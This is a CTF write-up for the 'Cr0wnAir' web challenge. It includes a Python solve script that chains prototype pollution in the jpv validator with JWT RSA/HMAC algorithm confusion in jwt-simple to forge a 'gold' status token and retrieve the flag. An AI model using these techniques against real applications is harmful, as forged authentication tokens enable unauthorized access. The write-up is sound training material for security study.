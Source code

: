 # Cr0wnAir

**Category**: Web \
**Tags**: `crypto` \
**Points**: 100 (27 solves) \
**Author**: hyperreality

## Challenge

Cr0wn is getting into the airline business to make some sweet
profits when everyone is able to travel again. Can you
upgrade your trip?

Loosely inspired by https://darknetdiaries.com/episode/84/ (has nothing to do
with solving the challenge)

http://34.105.202.19:3000

Attachments: `Cr0wnAir.zip`

## Solution

Steps:
- Get the RSA public key
- Sign my own token: `token = jwt.encode(payload, key, algorithm="HS256")`
- Send it to the server to verify

Exploits:
- Prototype pollution on [jpv](https://github.com/manvel-khnkoyan/jpv) v2.0.1 (JSON
  Pattern Validator) to obtain a token
  - PoC: https://github.com/manvel-khnkoyan/jpv/issues/6

- JWT algorithm mixing in [jwt-simple](https://github.com/hokaccha/node-jwt-simple) v0.5.2
  - Description: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/
  - Missing patch: https://github.com/hokaccha/node-jwt-simple/pull/86
  - Similar challenge: `RSA or HMAC` on CryptoHack

My script:
```python
import requests
import json
import jwt

url = "http://34.105.202.19:3000"

def get_token(i):
    payload = {
        "firstName": "Stupid",
        "lastName": "Idiot",
        "passport": 123456789,
        "ffp": f"CA1234567{i}",
        "extras": {"x": {"sssr": "FQTU"}, 'constructor': {'name':'Array'}}
    }

    res = requests.post(f"{url}/checkin", json=payload).json()
    return res["token"]


def get_flag():
    # This is the RSA public key I calculated
    key = """-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAw5lfZkrAzBjl2uf2bF4q
uWzPbmEzcsjVGwEePrj3tQh2gQWMw7HOvNNqVMWbuyK0VYWyk/EJ2IXkrV+R7yz1
ROFf2gMH6MRcdVakQF0MQJVRGOmwAIxi+Y7X3fo8HsjJVzzEk4Xy+nWTGS/FuNSW
+n0ch81nlZykurVcDKTS7zxPjOtkOswfypoqZyEJ8Uyn32VgWcZ1IK4CB1m9Za0j
DLU30ohyT3e3GUWT+qkUSiaHtMTViq8CxSMzlfFC1ASmAT1wGE+/rcUtTPvVKmh0
fTO2sqEsCQp2MGzKk8K1IhwdvuaXqgOFGIcBbaqMwKjpXIfTJSIb7rwEy/i3N9y8
CwIDAQAB
-----END PUBLIC KEY-----
"""

    # Requires a small patch to PyJWT
    token = jwt.encode({"status": "gold"}, key, algorithm="HS256")

    headers = {"Authorization": f"Bearer {token}"}
    res = requests.post(f"{url}/upgrades/flag", headers=headers).json()
    print(res)


if False:
    t1 = get_token(0)
    t2 = get_token(1)
    print(t1, t2)
    # Now get the RSA public key using
    # https://github.com/silentsignal/rsa_sign2n/tree/release/standalone
else:
    get_flag()
```

Output:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdGF0dXMiOiJnb2xkIn0.aMSl9yfOJoNV3Xzd0vZqhTRgxNrII_iXt6k5w6P1g3E
200
{'msg': 'union{I_<3_JS0N_4nD_th1ngs_wr4pp3d_in_JS0N}'}
```

Cool challenge :O


